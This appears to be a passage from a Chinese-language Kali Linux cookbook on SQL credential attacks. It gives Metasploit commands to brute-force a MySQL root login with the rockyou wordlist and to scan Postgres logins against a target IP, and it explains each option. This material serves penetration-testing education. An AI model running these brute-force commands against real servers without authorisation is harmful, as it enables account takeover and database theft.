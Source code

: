 ## 准备工作

在这个练习中，我们将使用 Metasploit 作为我们的模块来执行凭据攻击，因为我们已经在之前的教程中看到了其他工具的工作原理。让我们启动 Metasploit 控制台并开始利用 SQL 服务器。

## 操作步骤...

1.  一旦您进入 Metasploit 控制台，输入以下命令：

```
      use auxiliary/scanner/mysql/mysql_login
      set username root
      set stop_on_success true
      set rhosts <Target IP address>
      set pass_file /usr/share/wordlists/rockyou.txt
      exploit

```

输出将如下截屏所示：

![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_025.jpg)

1.  完成后，请等待脚本完成。在这种情况下，因为我们已经给出了一个停止成功的命令，一旦找到正确的密码，它将停止执行脚本。输出将如下截屏所示：![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_026.jpg)

1.  现在让我们尝试破解 Postgres 凭据。在 Metasploit 终端中输入以下内容：

```
      use auxiliary/scanner/postgres/postgres_login
      set rhosts <Target IP address>
      run

```

扫描器将启动，并且任何成功的尝试都将以绿色突出显示。请查看以下截屏：

![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_027.jpg)

## 它是如何工作的...

我们向 Metasploit 框架提供信息，包括字典路径、用户名和其他相关信息。一旦完成，我们就可以运行并导致模块执行。Metasploit 启动模块并开始暴力破解以找到正确的密码（如果在字典中可用）。让我们了解一些命令：

+   `use auxiliary/scanner/mysql/mysql_login`：在这个命令中，我们指定了将提供用户名列表的`mysql`插件

+   `set stop_on_success true`：这基本上设置了一旦找到有效密码就停止脚本的参数

+   `set pass_file /usr/share/wordlists/rockyou.txt`：在这个命令中，我们指定了脚本要引用的密码文件，以执行攻击

如果在任何时候你不知道该做什么，你可以在 Metasploit 终端中发出`show options`命令。一旦设置了`use (plugin)`命令，它将提供执行脚本所需和非必需的参数。

## 还有更多...

Metasploit 是一个丰富的框架。建议查看其他扫描器模块和为基于 SQL 的服务器破解提供的选项。
